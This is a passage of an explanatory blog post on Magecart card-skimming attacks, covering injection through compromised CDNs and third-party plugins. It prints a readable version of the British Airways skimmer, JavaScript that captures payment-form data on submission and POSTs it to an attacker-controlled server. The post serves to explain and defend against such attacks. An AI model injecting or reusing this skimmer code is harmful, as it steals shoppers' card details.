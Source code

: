 ```yaml
---
title: Everything you need to know on Magecart Attacks
date: "2018-10-19T19:12:03.284Z"
---
```


In the last month a group of hackers called Magecart came back striking in full force.

The attacks they architected have caused massive damages to companies like British Airways, Ticketmaster and even Newegg.

This group is specialised in card skimming from payments forms on the internet.

## How?

![](./threat.png)

Their attacks are all based on injecting malicious javascript into websites.

The main attack vector are hacked CDNs and third party plugins on websites.

The js inserted in websites usually is pretty straightforward: on form submission, it sends a POST request with all the sensitive information to an external server that is set up to receive it.

![](./on-payment.png)

The code in the British Airways attack was the following:

![](./british-airways.png)

Here's a more readable version of it:
```javascript
    window.onload = function() {
        // Triggering the function when users submit payment details
        jQuery(".btn-success").bind ("mouseup touchend", function(t) {
            var e={};
            // Copying the data inside of the payment form
            jQuery("#payment-form").serializeArray().map(function(t){
                e[t.name] = t.value});
            // Creating a JSON with the credit card data    
            var n=JSON.stringify(e);
            setTimeout(function() {
                    jQuery.ajax({
                        // POST request to Magecart controlled server
                        type:"POST",
                        async:!0,
                        // Malicious Server controlled by Magecart
                        url:"https://malicious-service.com/carding-api/",
                        data:n,
                        dataType:"application/json"})},
                500)})};

```



## CDN Security

These attacks usually are aimed towards large corporations that are attacked, either directly, or in indirect ways.

An example of indirect attack that happened a couple of weeks ago was 
